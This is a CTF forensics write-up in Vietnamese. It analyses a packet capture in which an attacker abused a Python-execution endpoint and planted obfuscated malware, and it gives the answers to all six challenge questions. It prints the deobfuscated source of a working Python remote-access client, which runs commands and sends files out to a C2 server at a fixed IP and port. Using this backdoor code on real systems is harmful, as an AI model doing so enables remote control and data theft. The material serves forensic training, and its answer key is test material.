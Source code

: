 # _TOOLPIE_ _(FORENSICS)_
![image](https://github.com/user-attachments/assets/74acfcd7-04ac-4e90-a6f0-1e72c11cbf41)

Bài cho 1 file pcapng, nhiệm vụ là phân tích và trả lời 6 câu hỏi

![image](images/45.png)

Mới đầu vào, mình follow tcp.stream, vì chỉ có 6 luồng nên mình sẽ ngồi phân tích hết

Đầu tiên là stream 0, thấy được 1 GET request từ IP 194.59.6.66 đến 1 HOST: 13.61.177.227, với yêu cả trả về trang chủ của 1 trang web

![image](images/46.png)

Trong phần nav của trang web có 2 liên kết là idex.html và script.html

Kết hợp với đó là mình export objects HTML và save all

![image](images/47.png)

Ta thử truy cập vào script.html xem sao

![image](images/48.png)

Đây giống như là một trang web cho người dùng thực hiện nhập mã Python rồi nhấn Execute để thực thi

Chưa có gì đặc biệt lắm, nên cùng đi đến với stream thứ 1

Tiếp tục là GET request từ 194.59.6.66 đối với server và ở gần cuối có 1 lệnh GET request tới /script.html

![image](images/49.png)

Khi ng dùng nhập mã và thực thi trên trang này thì nó sẽ gửi 1 yêu cầu POST/execute đến server

Và ngay sau đó là stream 3, vẫn tiếp tục là IP đó đã nhập mã và thực thi, nhìn script Python này uy tín vcl :v

![image](images/50.png)

Sau đó, stream 4 thì server đã thực hiện gửi `ec2amaz-bktvi3e\administrator` và có những phản hồi từ 1 IP __khác__ là 13.61.7.128. Đến đây mình sẽ có 1 số nhận định sau

- Thứ nhất, IP chịu trách nhiệm cho việc xâm phạm web của câu hỏi 1 đề cập chắc chắn là 194.59.6.66

```
1. What is the IP address responsible for compromising the website?
Answer: 194.59.6.66
```

- Thứ hai, Attacker có thể đã gửi payload Python độc hại đến /execute, khiến server chạy mã độc. Nên /execute chính là enpoint giúp trả lời cho câu 2
```
2. What is the name of the endpoint exploited by the attacker?
Answer: execute
```

- Thứ ba, IP 13.61.7.128 rất có thể là máy chủ C2 (Command & Control), nơi attacker có thể điều khiển hệ thống đã bị khai thác và ở câu 4 cũng có hỏi liên quan đến C2 nhưng mình nhập không đúng do thiếu port ( mình sẽ phân tích tiếp đoạn này ở bên dưới)

Tiếp theo, mình sẽ đi phân tích ở đoạn mã Python mà attacker đã gửi đi, đoạn script thực thi bị nén `bz2` sau đó là `marshal.loads` rồi `exec`

Giải nén xong, mình đã đưa về được file `.pyc` nhưng kh thể đưa về mã nguồn `.py` được, sau đó AI có hỗ trợ mình có thể đưa về bytecode

![image](images/51.png)

Ngồi đọc 1 lúc, thì mình thấy được đáp án cho câu 3

![image](images/52.png)

```
3. What is the name of the obfuscation tool used by the attacker?
Answer: Py-Fuscate
```

Vì bytecode quá dài, và mình méo hiểu gì nên nhờ AI đưa về .py theo đúng logic

```python
import os, socket, threading, time, random, string
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad, unpad

user = os.popen('whoami').read()
BUFFER_SIZE = 4096
SEPARATOR = '<SEPARATOR>'

def enc_mes(mes, key):
    cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
    return cypher.encrypt(pad(mes.encode() if isinstance(mes, str) else mes, 16))

def dec_mes(mes, key):
    if mes == b'': return mes
    cypher = AES.new(key.encode(), AES.MODE_CBC, key.encode())
    return unpad(cypher.decrypt(mes), 16)

def receive_file(k):
    client2 = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client2.connect(('13.61.7.218', 54163))
    client2.send(k.encode())
    received = dec_mes(client2.recv(BUFFER_SIZE), k).decode().split(SEPARATOR)
    filename, filesize = received[0], int(received[1])
    client2.send(enc_mes('ok2', k))
    msg = b''
    while len(msg) < filesize:
        msg += client2.recv(BUFFER_SIZE)
    with open(filename, 'wb') as f:
        f.write(dec_mes(msg, k))
    client2.close()

def receive(client, k):
    while True:
        try:
            msg = dec_mes(client.recv(1024), k)
            message = msg.decode()
            if message == 'check':
                client.send(enc_mes('check-ok', k))
            elif message == 'send_file':
                threading.Thread(target=receive_file, args=(k,)).start()
            elif message == 'get_file':
                client.send(enc_mes('ok', k))
                path = dec_mes(client.recv(1024), k).decode()
                with open(path, 'rb') as f:
                    data = enc_mes(f.read(), k)
                client.send(str(len(data)).encode())
                client.recv(1024)
                client.sendall(data)
            elif message:
                answer = os.popen(message).read()
                enc_answer = enc_mes(answer, k)
                client.send(str(len(enc_answer)).encode())
                if client.recv(1024).decode() == 'ok':
                    client.sendall(enc_answer)
        except:
            client.close()
            client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            client.connect(('13.61.7.218', 55155))
            k = ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(16))
            client.send(f"{user}{SEPARATOR}{k}".encode())
            time.sleep(60)

if __name__ == '__main__':
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    client.connect(('13.61.7.218', 55155))
    k = ''.join(random.choice(string.ascii_letters + string.digits) for _ in range(16))
    client.send(f"{user}{SEPARATOR}{k}".encode())
    threading.Thread(target=receive, args=(client, k)).start()
```

- Chương trình này là một client kết nối tới một C&C (có địa chỉ IP và cổng cố định: 13.61.7.218:55155), kết hợp với những phân tích trc đó thì đã có đáp án cho câu 4
```
4. What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
Answer: 13.61.7.218:55155
```

Sau khi kết nối tới C2 server xong thì thực hiện:
- Lấy thông tin người dùng thông qua whoami

- Thông tin này được gửi tới server cùng với khóa ngẫu nhiên (user + SEPARATOR + k), k chính là khóa để thực hiện mã hóa AES-CBC như trong script trên. Từ đây có câu trả lời cho câu 5\

![image](images/53.png)

```
5. What encryption key did the attacker use to secure the data?
Answer: 5UUfizsRsP7oOCAq
```

- Dùng AES-CBC để mã hóa dữ liệu gửi đi và giải mã dữ liệu gửi về

Mình sẽ dùng key đó để decrypt dữ liệu gửi đi tại đây là sẽ có đáp án cho câu 6

![image](images/54.png)

Lấy dữ liệu ở dạng Raw, rồi lưu vào 1 file riêng

Script
```python
from Crypto.Cipher import AES

def decrypt_file(input_file: str, output_file: str, key: str):
    # Đọc dữ liệu đã mã hóa từ file
    with open(input_file, "rb") as f:
        ciphertext = f.read()

    # Sử dụng key.encode() làm IV (giống như quá trình mã hóa)
    iv = key.encode()

    # Tạo đối tượng giải mã AES-CBC
    cipher = AES.new(key.encode(), AES.MODE_CBC, iv)

    # Giải mã dữ liệu
    decrypted_data = cipher.decrypt(ciphertext)

    # Loại bỏ padding (PKCS7)
    pad_len = decrypted_data[-1]
    decrypted_data = decrypted_data[:-pad_len]

    # Ghi kết quả giải mã ra file
    with open(output_file, "wb") as f:
        f.write(decrypted_data)

    print(f"Giải mã thành công! Đã lưu vào {output_file}")

input_file = "anh"   # File chứa dữ liệu đã mã hóa
output_file = "DONE"  # File để lưu dữ liệu sau khi giải mã
key = "5UUfizsRsP7oOCAq"        # Key giống lúc mã hóa

decrypt_file(input_file, output_file, key)
```

![image](images/55.png)

Check MD5

![image](images/56.png)

```
6, What is the MD5 hash of the file exfiltrated by the attacker?
Answer: 8fde053c8e79cf7e03599d559f90b321
```

Tổng hợp đáp án

```
1. What is the IP address responsible for compromising the website?
Answer: 194.59.6.66

2. What is the name of the endpoint exploited by the attacker?
Answer: execute

3. What is the name of the obfuscation tool used by the attacker?
Answer: Py-fuscate

4. What is the IP address and port used by the malware to establish a connection with the Command and Control (C2) server?
Answer: 13.61.7.218:55155

5. What encryption key did the attacker use to secure the data?
Answer: 5UUfizsRsP7oOCAq

6, What is the MD5 hash of the file exfiltrated by the attacker?
Answer: 8fde053c8e79cf7e03599d559f90b321
```







